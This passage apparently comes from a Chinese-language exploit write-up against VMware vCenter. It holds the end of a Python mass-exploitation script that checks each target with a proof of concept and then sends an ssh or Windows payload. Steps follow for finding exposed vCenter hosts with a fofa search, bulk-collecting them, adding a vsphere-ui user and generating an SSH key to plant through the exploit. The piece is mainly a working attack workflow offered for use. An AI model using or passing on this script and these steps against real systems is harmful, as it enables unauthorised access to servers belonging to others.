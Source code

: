 ```python
				for u in t.read().split('\n'):
					targets.append(u)
		elif opt in ('-u', '--url'):
			targets.append(arg)
	for opt, arg in opts:
		if opt in ('-t', '--type'):
			payload_type = arg
	for opt, arg in opts:
		if opt in ('-f', '--file'):
			filename = arg
	payload_linux(filename, payload_type)
	if payload_type != 'ssh':
		payload_win(filename)
	for target in targets:
		print('-' * 50)
		print('正在检测%s...' % target)
		if poc(target):
			if send_payload(target, payload_type):
				continue
		print('Failed')

```









## 漏洞复现

1.fofa搜索`title="+ ID_VC_Welcome +"`

可以用批量脚本通过fofa把所有搜索到的资产下载到本地

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/vmware_vul1.jpg)

2.然后使用POC验证漏洞：

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/vmware_vul2.jpg)



3.1 添加一个vsphere-ui用户：

```bash
adduser vsphere-ui
```



3.2 生成 ssh密钥

```bash
ssh-keygen -t rsa
# 然后复制公钥到上面的EXP中去
```
